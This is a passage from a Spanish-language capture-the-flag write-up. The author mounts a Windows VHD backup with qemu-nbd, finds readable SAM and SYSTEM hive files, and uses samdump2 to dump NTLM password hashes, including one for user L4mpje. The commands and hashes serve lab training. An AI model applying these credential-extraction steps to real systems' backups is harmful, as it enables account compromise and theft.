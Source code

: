 Luego nos montamos `9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd` utilizando la herramienta `qemu-utils` .

Primero nos instalamos la utilidad.
```console
intrusionz3r0@kali:~$  sudo apt-get install qemu-utils
```
Después cargamos el modulo de kernel `nbd`.
```console
intrusionz3r0@kali:~$ sudo rmmod nbd 
intrusionz3r0@kali:~$ sudo modprobe nbd max_part=16
```
Levantamos el servicio `qemu-nbd` y montamos la partición.

```
intrusionz3r0@kali:~$ sudo qemu-nbd -c /dev/nbd0 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd1
intrusionz3r0@kali:~$ sudo mount /dev/nbd0p1 /mnt/HTB/vhd
```

# Enumeración de disco virtual.

Si Accedemos a la ruta encontraremos algo como lo siguiente:

![](https://lh6.googleusercontent.com/gg90RKn8-7IUYPOSeuSPaoQfru2Cr4Pu-2AXtlmIkIWxn9f9LHWhKP7I_2ppFzUt_A43VXcTRmzzEk-IT6wy-yPuH0S-746HcrDNFqKck72Mj_236QJRdamr79ZUQGTnttLY4gVg)

Enumerando un poco el disco me percate de que tenemos permisos máximos en los archivos **SAM** y **SYSTEM**.

```console
intrusionz3r0@kali:~$ ls -la
.rwxrwxrwx  root  root   256 KB  Fri Feb 22 06:39:21 2019    SAM
.rwxrwxrwx  root  root   9.2 MB  Fri Feb 22 06:43:54 2019    SYSTEM
```

**¿Que son los archivo SAM y SYSTEM?**

* El archivo **SAM** (Security Account Manager) es un fichero que se encarga de almacenar credenciales de los usuarios en el sistema operativo de Windows.

* El archivo **SYSTEM**  es el archivo el cual se utiliza para proteger el archivo SAM, este tiene la clave para descifrar el contenido del archivo **SAM**.

# Volcado de hashes.

Me muevo los archivos a mi máquina local y utilizo la herramienta `samdump2` para volcar los hashes `NTLM`.

> NTLM es el proveedor predeterminado de autenticación de windows.

```console
intrusionz3r0@kali:~$ samdump2 SYSTEM SAM
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::v
```
